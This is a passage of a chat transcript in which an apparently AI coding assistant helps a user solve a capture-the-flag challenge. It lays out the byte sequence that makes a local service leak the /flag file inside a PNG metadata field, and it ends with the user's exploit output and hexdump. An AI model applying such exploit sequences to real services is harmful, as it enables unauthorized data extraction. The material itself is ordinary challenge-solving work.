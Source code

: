 - Minimal exfil path
  - 0x10: enable session.
  - 0x22: `cmd_create_default_entry` → creates/selects entry with Author = `g_FlagString`.
  - 0x32 <1 byte param>: `cmd_send_metadata_bundle` → sends a bundle that includes:
    - “Author” = `g_FlagString`,
    - “Comment” if previously set,
    - “Software”.
  - The bundle is sent via `send_tagged_blob`: 1-byte tag, 2-byte little-endian length, then payload bytes.

- Why it works
  - `init_flag_from_file` loads “/flag” for every connection and saves it in `g_FlagString`.
  - `cmd_create_default_entry` copies that global pointer into the new entry’s Author field.
  - `cmd_send_metadata_bundle` serializes the entry and returns the Author field verbatim.

- Bytes to send (in order)
  - b"\x10"
  - b"\x22"
  - b"\x32\x01"
  - Optionally b"\x11" to close.

- Response parsing
  - Read one chunk: tag (1), length (2 LE), payload.
  - Payload is a small container; scanning printables, the token “Author” is followed by the flag string.
  - The included `poc_ncif.py` does this sequence and extracts “Author”.

---

**User**

Okay you can now interact with it by running the python script, but I don't think the exploit is working :(

---

**Cursor**

Running the exploit script to observe actual behavior and debug the interaction sequence and parser if needed.

Checking and preparing environment: I'll verify Docker is available, then set up a Python venv with pwntools, build and run the service container, and finally run the exploit against it. If Docker isn't available, I'll note that and propose creating the 'ico' user locally or running inside Docker only.

Setting up a Python virtual environment, installing pwntools, and running the exploit. If the server isn’t running, I’ll build and start the Docker service, then rerun the script.

---

**User**

I think that we're missing something. I ran the exploit and got this back for the png:
[+] Opening connection to 127.0.0.1 on port 4265: Done
No parsable KV bundle. Raw chunk (153 bytes): 89504e470d0a1a0a0000000d494844520000000200000002080600000072b60d240000001049444154789c63606060f80fc51002001cf502fe6a1cd9170000002774455874417574686f7200314235423535453432343233374230464637304432444145364437394632323692fa85010000001174455874536f6674776172650069636f2076302e3155c7b0f20000000049454e44ae426082
[*] Closed connection to 127.0.0.1 port 4265
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0002 0000 0002 0806 0000 0072 b60d  .............r..
00000020: 2400 0000 1049 4441 5478 9c63 6060 60f8  $....IDATx.c```.
00000030: 0fc5 1002 001c f502 fe6a 1cd9 1700 0000  .........j......
00000040: 2774 4558 7441 7574 686f 7200 3142 3542  'tEXtAuthor.1B5B
00000050: 3535 4534 3234 3233 3742 3046 4637 3044  55E424237B0FF70D
00000060: 3244 4145 3644 3739 4632 3236 92fa 8501  2DAE6D79F226....
00000070: 0000 0011 7445 5874 536f 6674 7761 7265  ....tEXtSoftware
00000080: 0069 636f 2076 302e 3155 c7b0 f200 0000  .ico v0.1U......